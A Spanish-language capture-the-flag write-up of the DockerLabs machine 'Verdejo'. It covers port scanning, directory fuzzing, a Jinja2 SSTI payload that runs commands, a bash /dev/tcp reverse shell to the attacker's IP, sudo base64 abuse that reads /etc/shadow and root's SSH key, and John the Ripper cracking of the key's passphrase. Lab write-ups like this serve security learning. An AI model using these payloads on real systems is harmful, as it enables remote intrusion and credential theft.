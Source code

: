 # 🧪 Análisis de la máquina vulnerable: **Verdejo**

**Dificultad:** Fácil

**Plataforma:** DockerLabs

**Descripción:**

![Descarga de la máquina](Imágenes/2025-05-15_09-12.png)

---

## 📦 Despliegue de la máquina

Se descarga la máquina vulnerable desde la página oficial de DockerLabs y se descomprime con:

```bash
unzip verdejo.zip
```

Luego, se despliega el entorno con el script:

```bash
sudo bash auto_deploy.sh verdejo.tar
```

Esto inicia la máquina en un contenedor de Docker.

![Despliegue de la máquina](Imágenes/Capturas.png)

---

## 📡 Verificación de la conectividad

Se verifica la conexión con la máquina mediante un simple ping a la IP asignada (`172.17.0.3`):

```bash
ping -c1 172.17.0.3
```

Esto confirma que la máquina está accesible en la red local del contenedor.

![Ping](Imágenes/Capturas_1.png)

---

## 🔍 Escaneo de puertos

Utilizamos `nmap` para realizar un escaneo completo de todos los puertos y ver cuáles están abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Resultado:

```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64
80/tcp   open  http    syn-ack ttl 64
8089/tcp open  unknown syn-ack ttl 64
```

![Puertos](Imágenes/Capturas_2.png)

---

## 🛠️ Detección de servicios

Con los puertos abiertos identificados, se realiza un escaneo más detallado para obtener información sobre los servicios y versiones:

```bash
nmap -sC -sV -p22,80,8089 172.17.0.3 -oN target.txt
```

Se usó un script personalizado `extractPorts` para agilizar el proceso de extracción de puertos desde la salida anterior.

![Servicios](Imágenes/Capturas_3.png)

---

## 🌐 Análisis de los servicios HTTP

Al acceder a `http://172.17.0.3/` se muestra la página por defecto de Apache2, lo que indica que el servidor está funcionando.

![Puerto:80](Imágenes/Capturas_4.png)

También se accede al puerto `8089` vía `http://172.17.0.3:8089/` y se observa una página personalizada que parece desarrollada en algún framework Python (por la estructura del HTML).

![Puerto:8089](Imágenes/Capturas_5.png)

---

## 🗂️ Fuzzing de directorios

Se realizó una enumeración de directorios y archivos con `gobuster` para ambos puertos:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
gobuster dir -u http://172.17.0.3:8089 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

Durante el fuzzing en el puerto `8089`, la aplicación se volvió inestable, lo que sugiere una posible vulnerabilidad a ataques DoS o DDoS.

![Fuzzing](Imágenes/Capturas_6.png)
![Fuzzing](Imágenes/Capturas_7.png)

---

## 🧠 Server-Side Template Injection (SSTI)

Al inspeccionar el parámetro `user` en la URL `http://172.17.0.3:8089/?user=`, se descubrió que la aplicación es vulnerable a SSTI, probablemente mediante Jinja2 (común en aplicaciones Flask).

Se probó la ejecución de comandos con este payload:

```
http://172.17.0.3:8089/?user={{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('cat /etc/passwd').read() }}
```

Este payload ejecuta el comando `cat /etc/passwd` desde el servidor y muestra su salida en la página web.

![SSTI](Imágenes/Capturas_8.png)

---

## ⚙️ Reverse Shell

Aprovechando la vulnerabilidad SSTI, se obtuvo una reverse shell. Primero, iniciamos un listener:

```bash
sudo nc -lvnp 443
```

Luego, se usó este payload SSTI modificado para obtener acceso remoto:

```
http://172.17.0.3:8089/?user={{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/192.168.1.10/443 0>&1"').read() }}
```

Esto inicia una shell interactiva con el servidor.

![Reverseshell](Imágenes/Capturas_9.png)
![Reverseshell](Imágenes/Capturas_10.png)

---

## 🔐 Escalada de privilegios

Se descubrió que el usuario tenía permiso para ejecutar el binario `base64` como root sin contraseña (`NOPASSWD`):

```bash
sudo -l
```

Usamos esto para leer archivos restringidos como `/etc/shadow` y la clave privada SSH de root:

```bash
sudo base64 /etc/shadow | base64 --decode
sudo base64 /root/.ssh/id_rsa | base64 --decode
```

Esto permitió obtener las contraseñas encriptadas y la clave privada del usuario root.

![Escalada](Imágenes/Capturas_11.png)
![Escalada](Imágenes/Capturas_12.png)

---

## 🔑 Acceso por SSH

Guardamos la clave privada en un archivo llamado `id_rsa` y le dimos los permisos adecuados:

```bash
nano id_rsa
chmod 600 id_rsa
```

Al intentar conectarse con:

```bash
ssh -i id_rsa root@172.17.0.3
```

Se solicita la passphrase de la clave. Para obtenerla, convertimos la clave al formato crackeable por John the Ripper:

```bash
ssh2john id_rsa > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

Se obtuvo la contraseña `honda1`, con la cual se logró el acceso como **root** por SSH.

![id\_rsa](Imágenes/Capturas_13.png)

---














